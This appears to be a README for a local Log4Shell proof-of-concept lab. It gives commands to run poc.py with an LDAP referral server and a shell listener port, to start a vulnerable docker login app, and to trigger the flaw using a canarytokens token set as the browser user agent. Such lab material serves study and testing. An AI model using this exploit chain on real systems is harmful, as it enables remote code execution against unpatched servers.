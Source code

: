 
# How to Run this Program

- First, download and install the archived jdk 1.8

- Second, clone `marshalsec` : `git clone https://github.com/mbechler/marshalsec.git`

```shell
cp -r /Library/Java/JavaVirtualMachines/jdk1.8.0_20.jdk/Contents/Home .

mv Home jdk1.8.0_20

python3 poc.py

# get the inet address of your local machine
ifconfig en0 | grep inet | awk '$1=="inet" {print $2}'

# [+] Enter IP for LDAPRefServer & Shell: enter the inet address like 10.0.0.17

# [+] Enter listener port for LDAPRefServer: 8000

# [+] Set listener port for shell: 9001

docker build -t log4j-shell-poc .

docker run -d -p 127.0.0.1:8080:8080 log4j-shell-poc

# get the current image's container ID
docker ps

# log the docker instance
docker logs -f --tail=10 <CONTAINER ID>

docker exec -i -t <CONTAINER ID> /bin/bash

```

- Go to [http://localhost:8080/](http://localhost:8080/)

- You should see the log in page now!

- Open [canarytokens](https://canarytokens.org/generate), select `Select your token` => `Log4Shell`

- Open [temp-mail](https://temp-mail.org/), copy the temporary E-mail address

- Go back to [canarytokens](https://canarytokens.org/generate), paste the temporary E-mail address, enter a random reminder note like "log4j shell test", then create the token

- Copy the token, and change the browser's user agent to the token ( don't forget to refresh!!! )

- Enter random user name & password like "user" & "123456"

- Go back to your temp-mail page, pop up the docker log window, wait for the attack to end

- After the attack execution, you should see the alert e-mail on the temp-mail page and detailed info on your canarytokens page







